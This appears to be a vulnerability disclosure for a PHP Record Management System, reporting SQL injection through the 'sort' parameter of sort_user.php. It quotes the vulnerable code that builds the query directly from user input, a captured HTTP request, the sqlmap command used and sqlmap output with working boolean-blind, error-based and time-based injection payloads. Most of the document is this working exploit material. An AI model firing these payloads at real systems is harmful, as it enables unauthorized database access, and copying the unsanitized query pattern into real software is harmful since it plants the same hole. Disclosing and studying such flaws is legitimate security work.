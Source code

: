 ### VUL_AUTHOR:netmanzhang
# Record Management System - SQL Injection on (sort_user.php sort parameter) 
## Vendor Homepage:
https://www.sourcecodester.com/php/5107/record-management-system.html 
## Version:V1.0
## Tested on: PHP, Apache, MySQL
## Affected Page:
sort_user.php 

On this page, sort parameter is vulnerable to SQL Injection Attack 
## Source code(Personnel_record_management_system/sort_user.php):
```
$sort=$_POST['sort'];
$name_query=mysqli_query($conn,"select * from school where Name='$sort'")or die(mysqli_error());
$query_row=mysqli_fetch_array($name_query);
```
## Proof of vulnerability(Verify using the sqlmap tool):
### Request:
```
POST /Personnel_record_management_system/sort_user.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 135
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=52388hjgjeif4bl4r5sqp2bmpm
Origin: http://localhost
Referer: http://localhost/Personnel_record_management_system/emp_profiles_user.php
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip

filter=&sort=Sort+Personnel+by+School
```
#### -> sqlmap -r 1.txt(above request package) --batch
## Output:
```
---
Parameter: sort (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: filter=&sort=Sort Personnel by Schoo' OR NOT 7523=7523#

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: filter=&sort=Sort Personnel by Schoo' OR (SELECT 8098 FROM(SELECT COUNT(*),CONCAT(0x71766a7171,(SELECT (ELT(8098=8098,1))),0x7178627a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- zzAA

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: filter=&sort=Sort Personnel by Schoo' AND (SELECT 4170 FROM (SELECT(SLEEP(5)))VaGH)-- Lvda
---
```
